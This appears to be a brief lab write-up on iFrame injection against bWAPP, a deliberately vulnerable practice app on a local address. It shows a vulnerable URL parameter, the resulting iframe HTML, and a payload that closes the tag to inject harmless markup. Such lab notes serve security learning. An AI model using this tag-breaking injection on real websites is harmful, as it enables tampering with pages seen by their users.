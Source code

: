 # iFrame Injection
![alt text](image-7.png)

#### **Process:**
```plaintext
-----------------------------------------------------
1. At first check the url endpoint.
2. Or check the html code if there are any vulnerable iframe exists or not.
3. Try to cutomize the iframe tag .

```

#### **Vulnerable URL:**
```plaintext
http://192.168.56.101/bWAPP/iframei.php?ParamUrl=robots.txt&ParamWidth=250&ParamHeight=250
```
![alt text](image-8.png)

#### **Vulnerable HTML code**
```html

   <iframe frameborder="0" src="robots.txt" height="250" width="250"></iframe>

```

#### **Payload:**

```html
></iframe><u>Hello</u>

```
> ##### It will work like the bellow one!

```html
<iframe frameborder="0" src="robots.txt" height="250" width="250"></iframe><u>Hello</u>

```
